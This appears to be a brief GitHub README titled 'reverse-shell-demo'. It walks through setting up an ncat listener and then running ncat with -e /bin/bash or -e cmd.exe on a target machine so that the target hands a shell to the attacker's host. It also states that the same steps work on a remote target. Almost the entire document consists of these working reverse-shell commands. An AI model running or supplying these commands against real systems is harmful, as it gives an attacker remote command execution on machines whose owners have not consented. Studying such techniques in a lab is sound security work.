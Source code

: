 # reverse-shell-demo

## Reverse Shell demo between 2 computers on the same network. (Can be done on a remote target but local targets are faster for a demo, result is identical)

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
`ncat -lvnp <port>`


### 3) Connect attack target to server:
For Linux/Bash:
`ncat <server-internal-ip> <port> -e /bin/bash`

For Windows:
`ncat <server-internal-ip> <port> -e cmd.exe`

*To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.
